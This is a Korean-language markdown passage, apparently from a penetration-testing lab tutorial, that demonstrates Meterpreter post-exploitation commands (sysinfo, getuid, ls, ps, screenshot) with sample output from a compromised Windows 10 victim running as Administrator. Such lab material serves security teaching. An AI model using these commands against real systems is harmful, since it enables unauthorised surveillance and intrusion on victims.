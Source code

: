 ## 6. 테스트

**help**
: help -> meterpreter 명령어 도움말(옵션 포함)

**sysinfo**
>Victim 시스템 정보 확인
```
meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : ko_KR
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
**getuid**
>공격을 통해 획득한 Victim 시스템의 사용자 계정 정보 확인
```
meterpreter > getuid
Server username: WIN10\Administrator
```

**ls ,dir** 
>Victim 시스템에 접근한 현재 디렉터리의 내용 확인

![](./img/MSF.img/0009.png)

**ps**
>Process 정보 확인

**screenshot**
> Victim 시스템의 현재 출력되어 있는 화면 캡쳐
